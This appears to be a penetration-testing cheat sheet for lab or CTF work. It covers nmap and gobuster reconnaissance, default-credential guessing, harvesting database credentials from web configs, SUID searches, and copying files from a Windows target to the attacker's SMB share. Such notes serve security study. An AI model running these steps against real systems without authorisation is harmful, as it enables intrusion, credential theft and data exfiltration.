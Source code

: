 # Philosophy
- first, test the potential vuln (or each step of it) by minimum cost

# Init contact
- nmap -sC -sV -oA \<name\> \<ip\>
- nmap -p- -sV \<ip\> > all-tcp
- nmap -sU \<ip\> > comm-udp
- nmap --script vuln \<ip\>

# http/https 80/443
- gobuster -u http://xxxxx -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,txt,html
  - remember to recursively scan if needed
- google its software version and find its exploit
- login page => google its default cred
- play around and see whether there is any upload/execute vuln
- check its ssl cert information, it may contain some username or email
- play with PHPSESSID, reuse it, to see what happens

# priv esc
- go to /var/www/, read config => get db cred => extract juicy info
- password reuse
- find SUID files => find / -perm -4000 2>/dev/null
- find all files in /home => find /home -type f

# manually test user pass
- admin:admin
- admin:password
- admin:Password1
- guest:guest

# file 
- exitfool xx => find hidden info, like author, email

# File Transfer
- smb share
  - (kali) impacket-smbserver share \<shared path\>
  - (windows) net use z: \\\\<kali's ip\>\share
  - (windows) copy \<file\> z:

